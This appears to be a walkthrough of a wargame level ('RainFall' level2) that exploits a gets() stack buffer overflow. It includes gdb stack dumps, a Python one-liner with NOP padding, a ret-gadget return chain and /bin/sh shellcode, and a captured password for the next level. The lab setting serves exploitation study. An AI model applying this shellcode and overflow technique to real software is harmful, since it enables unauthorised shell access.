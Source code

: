 We examine the binary, when entering gdb, we need to unset `LINES` and `COLUMNS` variables from the environment to keep our exploit addresses the same when launching them in our environment.
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
```
We then basically deconstructed the `main` and the function `p`, and examined them carefully. \
The main calls p, and does nothing else. \
p does a few thing which we wont explain here because it would take too long and we wrote a bin.c file to show what it does. \
So we have noticed we can erase the `eip` return value to match something to execute on the stack (like a shellcode).
```
(gdb) disas p
   ...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   ...
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret

(gdb) b *0x0804853d
(gdb) r < <(python -c 'print "A"*80')
(gdb) x/48wx $esp
(gdb) x/48wx $esp
0xbffff6b0:	0xbffff6cc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6c0:	0x080482b5	0x00000000	0x00ca0000	0x41414141
0xbffff6d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x08048500
0xbffff710:	0x41414141	0x41414141	0x41414141	0x08048500
                                    |__the ebp  |__ the old eip
(gdb) x/4wx $ebp
0xbffff718:	0x41414141	0x08048500	0x08048550	0x00000000
...
```

We fill in our buffer with `NOP` values, then write some zeroes to overwrite the `ebp` register, then we overwrite the `eip` to jump on the `ret` instruction of the `p` function, then we write the next adress that will be assigned to the `eip` which is the address of the next instruction in the stack, and the next instruction will be the shellcode we write next. \
When we execute our exploit, the eip will jump twice to get to the address of the shellcode and execute it step by step to give us access to a shell (and as stdin is blocked we still need to keep the entry open with `cat path -`) !
```shell
$ python -c 'print "\x90" * 76 + "\x00\x00\x00\x00" + "\x3e\x85\x04\x08" + "\x24\xf7\xff\xbf" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
����������������������������������������������������������������>��������
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
